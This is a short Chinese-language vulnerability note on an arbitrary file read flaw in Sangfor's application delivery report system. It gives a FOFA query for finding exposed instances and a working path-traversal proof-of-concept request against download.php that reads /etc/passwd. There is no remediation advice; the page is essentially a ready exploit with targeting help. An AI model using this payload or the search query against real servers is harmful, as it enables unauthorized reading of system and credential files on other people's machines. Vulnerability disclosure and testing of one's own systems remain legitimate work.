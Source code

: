 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
深信服 应用交付报表系统
```

## FOFA

```
app="SANGFOR-应用交付报表系统"
```

## 漏洞复现

登录页面

![image-20220525144847811](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251448956.png)

验证POC

```
/report/download.php?pdf=../../../../../etc/passwd
```

![image-20220525144958637](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251449708.png)